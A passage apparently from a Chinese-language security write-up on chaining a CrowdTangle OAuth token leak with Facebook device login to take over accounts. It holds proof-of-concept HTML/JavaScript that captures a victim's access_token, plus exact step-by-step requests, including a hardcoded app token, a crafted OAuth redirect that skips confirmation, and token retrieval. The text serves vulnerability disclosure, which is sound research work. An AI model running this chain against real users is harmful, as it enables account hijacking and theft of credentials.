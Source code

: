 ```
&lt;html&gt;
&lt;body&gt;
&lt; script&gt;
cli = function()`{`
opn = window.open("https://apps.crowdtangle.com/CUSTOM_PAGE/e/x/x/HASH/");
setTimeout(function()`{`

opn.location.href = "https://apps.crowdtangle.com/auth/server";
setTimeout(function()`{`opn.location.href = "https://www.facebook.com/v2.9/dialog/oauth?client_id=527443567316408&amp;redirect_uri=https://apps.crowdtangle.com/facebook/auth&amp;state=ANY_STATE&amp;response_type=token";`}`,3000);
`}`,4000);
`}`
&lt;/ script&gt;
&lt;button onclick='cli()'&gt;Click&lt;/button&gt;
&lt;/body&gt;
&lt;/html&gt;
```

这里接到的 Facebook 用户 access_token 是第一方的（由 Facebook 拥有的应用所生成的），可以用来访问 **`https://graph.facebook.com/graphql`** 端点。然而，为这个特定应用程序（Crowdtangle）生成的 access_token 在进行 graphql 查询/更换时存在一些限制。正因为我们无法向账号中添加新的电话或邮箱地址，如果我们在接管该账号的情况下执行此类变更，就会导致 access_token 的失效。此外，账号的查询操作也是有限的，我无法收集有关被接管用户的重要信息。



## 将 access_token 权限提升到另一个第一方应用上，然后在进行账户接管

Facebook 支持[设备登录](https://developers.facebook.com/docs/facebook-login/for-devices/)。这是一个为了能够在电视等设备上使用临时代码（如验证码等）而不是用户邮箱和密码登录 Facebook 账号的功能。该认证机制将会按以下流程工作：

首先，请求设备登录的应用会向向 Facebook 请求一个临时代码，这时就会返回一个显示给 Facebook 用户的代码，如果用户接受使用该应用的话还会收到另一个获取用户 access_token 的代码 （这里我们将注意它的 retrieve_code）。然后，它会显示给用户以提示用户需要在 **`www.facebook.com/device`** 或在他/她的移动设备中输入的该代码。在输入代码后，用户将被提示是否接受使用该应用。如果他/她接受使用，该应用就会请求另一个带有 retrieve_code 的 API 端点，以此来返回用户的 access_token。

由于许多 Facebook 应用也在电视和手表等设备中使用这种登录方法，我们可以对这些应用进行逆向工程，获得它们用来请求向用户显示临时代码的 client_code。在显示给用户后，我们可以得到第一方的用户 access_token。

那么现在如何将上述内容和之前的攻击联系起来呢？因为前面的方法需要过多的用户交互（输入用户代码，接受使用应用，CSRF保护……），然后我们才能得到用户的 access_token，这一点通常被 Facebook 认为是安全的，并不会被攻击者利用。<br>
我们在这里可以做的是使用之前收集到的受限 access_token 来做一些 Graphql 查询，这样就能够返回我们在认证流程中使用的 CSRF token。由于 CSRF token 与用户浏览产生的会话无关，我们可以向其注入一个恶意的 URL，请求 Facebook 的 OAuth 端点，并直接让我们获得一个新的具有更高权限的 access_token。

在之前的攻击中，受害者会带着 access_token 被重定向到攻击者的网站。攻击者网站接收到 access_token，并进行以下步骤：
1. 向 **`https://graph.facebook.com/v2.6/device/login`** 发送一个POST请求，参数为 **`"scope=public_profile&amp;access_token=437340816620806|04a36c2558cde98e185d7f4f701e4d94"`**（注意这里并没有使用受害者的 access_token，但这里我们要创建一个向应用437340816620806授权的设备代码，这是一个允许设备登录的第一方应用）。我们会把 “user_code “标记为**USER_CODE**，把检索受害者 access_token 的 “code ”记为**RETRIEVE_CODE**。
1. 请求 https:// graph.facebook.com/graphql?access_token=**VICTIM_CROWDTANGLE_TOKEN**&amp;variables=`{`“userCode”: “**USER_CODE**“`}`&amp;doc_id=2024649757631908&amp;method=POST (USER_CODE来自之前的步骤)<br>**VICTIM_CROWDTANGLE_TOKEN** 是从 Crowdtangle 窃取的 access_token。这里是对 USER_CODE 的授权，同时也返回一个 CSRF “nonce”，我们将其记为**USER_NONCE**。
1. 在替换掉所有出现的 USER_CODE 和 USER_NONCE 后，将用户重定向到**`https://m.facebook.com/dialog/oauth/?app_id=437340816620806&amp;redirect_uri=https://m.facebook.com/device/logged_in/?user_code%3DUSER_CODE%26nonce%3DUSER_NONCE%26is_preset_code%3D0&amp;ref=DeviceAuth&amp;nonce=USER_NONCE&amp;user_code=USER_CODE&amp;auth_type=rerequest&amp;scope=public_profile&amp;qr=0&amp;_rdr`**。这里我们删除了 force_confirmation 参数，以避免产生用户交互。( 为了更好地理解这一点，请尝试执行步骤1并在m.facebook.com/device 中输入 user_code )。因为在前面的步骤中，我们已经生成了一个有效的与提供的 USER_CODE 相匹配的 CSRF token/nonce，这将在没有用户交互的情况下完美地工作。
1. 这就会重定向到 **`https://m.facebook.com/device/logged_in/`**，并附上一个 oauth 代码、一个有效的临时用户和有效的用户代码。应用的授权到这里就大功告成了。
1. 在攻击者这边，他/她会发起这个请求来检索不受限的第一方 access_token：
<li>在替换了RETRIEVE_CODE之后请求**`https://graph.facebook.com/v2.6/device/login_status?access_token=437340816620806|04a36c2558cde98e185d7f4f701e4d94&amp;code=RETRIEVE_CODE&amp;method=post`** 。这里会返回一个由437340816620806应用授权的第一方 access_token 。我们将它记为 **FIRST_PARTY**。<br>
攻击者将使用这个 token，通过添加一个电话号码的方式来接管账户。</li>
